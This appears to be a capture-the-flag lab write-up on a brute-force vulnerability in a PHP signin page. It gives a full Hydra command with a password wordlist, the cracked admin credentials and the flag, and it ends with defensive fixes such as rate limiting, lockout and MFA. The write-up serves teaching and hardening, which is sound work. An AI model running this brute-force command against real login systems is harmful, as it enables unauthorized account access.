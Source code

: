 # Bruteforce Login Vulnerability

## 🎯 Overview
This vulnerability demonstrates a weak authentication system that is susceptible to bruteforce attacks. The target endpoint `index.php?page=signin` lacks basic security measures like rate limiting and password complexity requirements.

## 🔍 Exploitation Process

### Tools Used
- **Hydra**: A parallelized login cracker supporting multiple protocols
- **Wordlist**: Common password dictionary (10-million-password-list-top-500.txt)

### Attack Command
```bash
hydra -l admin -P /root/dictionary/10-million-password-list-top-500.txt -F -o hydra.log x.x.x.x http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

### Command Breakdown
| Parameter | Description |
|-----------|-------------|
| `-l admin` | Specifies the target username |
| `-P [path]` | Path to the password wordlist |
| `-F` | Stop attack when valid credentials found |
| `-o hydra.log` | Output log file location |
| `http-get-form` | Protocol specification for GET form |

### Attack Result
- **Username**: admin
- **Password**: shadow
- **Flag**: B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## 🛡️ Security Issues Identified
1. Weak password policy
2. No bruteforce protection
3. No rate limiting
4. No account lockout mechanism
5. Common admin username

## 🔒 Recommended Security Fixes

### 1. Implement Rate Limiting
```python
# Example rate limiting logic
MAX_ATTEMPTS = 5
LOCKOUT_TIME = 15 # minutes
```

### 2. Password Policy Requirements
- Minimum length: 12 characters
- Must include:
  - Uppercase letters
  - Lowercase letters
  - Numbers
  - Special characters
- Password history enforcement
- Regular password rotation

### 3. Additional Security Measures
- Implement CAPTCHA after failed attempts
- IP-based blocking after suspicious activity
- Multi-factor authentication (MFA)
- Account lockout after multiple failed attempts
- Secure session management

## 📚 Additional Resources
- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [NIST Password Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [Common Password Lists](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.